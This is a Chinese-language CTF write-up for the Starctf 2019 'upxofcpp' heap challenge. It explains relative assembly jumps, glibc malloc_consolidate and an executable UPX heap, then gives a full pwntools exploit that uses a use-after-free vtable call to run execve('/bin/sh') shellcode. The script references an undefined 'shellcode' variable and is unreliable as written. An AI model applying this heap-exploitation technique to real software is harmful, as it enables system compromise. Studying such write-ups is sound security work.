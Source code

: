 ```yaml
---
title: Starctf2019_upxofcpp
date: 2019-05-03 22:29:58
tags:
layout: post
---
```

非常有趣构思巧妙的一题..可能我tcl都没见过所以觉得巧妙..
<!--more-->
# start
比赛的时候没有做出来...
感觉这题好多不知道的东西...
# asm(jmp .+_n)
发现汇编还可以这样写...
学到了...可以`jmp .+0x10`表示跳当前地址+0x10.. 
可能是2字节或者5字节主要看n和符号例如`+0x81`和`-0x7e`
用到时候直接ipython试试
汇编没学好...感觉这个超灵活.shellcode可以不连续了...还可以往回跳..

# malloc_consolidate
简单了解了一下..这几天准备出题比较忙之后填坑...[seebug][1]
* 何时会触发 malloc_consolidate(仅对 _int_malloc 函数而言):small bins 尚未初始化&需要 size 大于 small bins
* malloc_consolidate 如何进行合并:遍历 Fastbins 中的 chunk, 设置每个 chunk 的空闲标志位为 0, 并合并相邻的空闲 chunk, 之后把该 chunk 存放到 unsorted bin 中.Fastbins 是单向链表, 可以通过  fastbin->fd 遍历 Fastbins.

这个函数简单来说就是整理`fastbin`能合并的合并放入`unsortedbin`
还没去啃源码但是发现在`free`一个`chunk`放入`top`chunk的时候会触发.

本来感觉也没啥..后来发现是`too young too navie ...` 

我做不出来一个是不知道上面的`asm(jmp .+_n)`还有一个点是..正常的放入`fast bin`+`add`操作无法使得`fd`可控但是在链中...（想了挺久的就是没办法）

`malloc_consolidate`的好处是往`fd&bk`上填了`main_arena+88`..
而`main_arena+0x8`是`last_remain`..其最开始的8字节属于刚被`malloc`的`chunk`所以可控
而且`main_arena+0x10`是`unsorted bin[0]`其最开始的8字节可控....
这就很巧妙地和上面的`asm(jmp .+_n)`结合起来...恰好可以一起完成exp..


# UPX
题目中是简单的 `./upx -d  binary`就可以脱壳放入`ida`看清逻辑
听主办方讲题的时候说这个版本的upx `heap`可执行虽然调的时候发现但是..做题一直拿着脱壳后的`binary`忽略了`heap`可执行感觉自己差太远...

# 思路
* uaf + vtable call to run shellcode

(思路.exp很巧妙....)

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice:",str(c))
def add(idx,size,data="-1"):
	cmd(1)
	p.sendlineafter("dex:",str(idx))
	p.sendlineafter("ize:",str(size))
	p.sendlineafter("stop:",data)
def free(idx):
	cmd(2)
	p.sendlineafter("dex:",str(idx))
def show(idx):
	cmd(4)
	p.sendlineafter("dex:",str(idx))
context.log_level='debug'
p=process('./upxofcpp_raw')
context.arch='amd64'
sh=asm(shellcode)
data=u32(sh+'\x00'*2)
add(0,0x68/4)
add(1,0x68/4)
add(2,0x100/4)
free(0)
free(1)
free(2)
raw='''
xor rsi,rsi
xor rdx,rdx
xor rax,rax
mov al,0x3b
mov rdi,0x0068732f6e69622f
nop
push rdi
mov rdi,rsp
syscall
'''
#>0x80000000will crash so nop...
raw=asm(raw).ljust(0x30,'\x00')+asm('jmp .-0x30')
s=''
for x in range(0,0x38,4):
	s+=str(u32(raw[x:x+4].ljust(4,'\x00')))+"\n"
add(3,0x38/4,s)
#gdb.attach(p,'b *0x000555555555723')
free(1)
p.interactive()
```




[1]:https://paper.seebug.org/255/#5-last_remainder